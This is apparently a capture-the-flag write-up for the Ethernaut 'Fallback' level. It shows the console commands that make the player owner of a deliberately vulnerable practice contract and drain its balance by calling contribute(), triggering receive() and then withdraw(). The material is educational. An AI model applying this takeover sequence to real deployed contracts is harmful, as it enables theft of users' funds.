 ### Goals

- claim ownership of contract
- reduce it's balance to 0

### Exploit

We can see that to set owner of the contract we need to call `receive()` function. But before we need to fullfil require check, so we need to call `contribute()` first so our balance at contributors mapping is gt 0.

1. Contribute
2. Trigger receive, which will set you as owner
3. Withdraw

### Code

Execute following code in your developer console at Ethernaut page.

```code
await contract.contribute({value: 100000000000000})
```

```code
await sendTransaction({from: player, to: contract.address, data: "0x", value: 1})
```

```code
await contract.withdraw()
```

```code
await getBalance(contract.address)
'0'
```

Done!
